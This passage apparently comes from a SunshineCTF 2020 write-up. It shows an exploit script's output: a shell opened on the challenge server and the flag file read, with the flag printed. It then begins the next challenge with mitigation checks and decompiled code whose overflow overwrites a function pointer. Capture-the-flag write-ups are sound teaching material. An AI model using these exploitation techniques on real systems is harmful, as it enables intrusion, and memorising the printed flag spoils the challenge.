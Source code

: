 > That `56` was kinda sloppy of me, it should have been `(0x48 - 0x10)`.  Yes, still `56`, but with some meaning.

Output:

```bash
# ./exploit_04.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-04/chall_04'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30004: Done
[*] Switching to interactive mode
$ id
uid=1000(chall_04) gid=1000(chall_04) groups=1000(chall_04)
$ ls -l
total 16
-rwxr-xr-x 1 root root     8440 Nov  7 07:49 chall_04
-rw-r----- 1 root chall_04   39 Nov  7 08:51 flag.txt
$ cat flag.txt
sun{critical-acclaim-96cfde3d068e77bf}
```


## speedrun-05

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No stack canary, assume BOF, however like the previous not necessary.  The rest of the mitigations are in place.  For any type of ROP we'll need a leak.

### Decompile with Ghidra

```c
void vuln(void)
{
  char local_48 [56];
  code *local_10;
  
  printf("Yes I\'m going to win: %p\n",main);
  fgets(local_48,100,stdin);
  (*local_10)();
  return;
}

void win(void)
{
  system("/bin/sh");
  return;
}
```
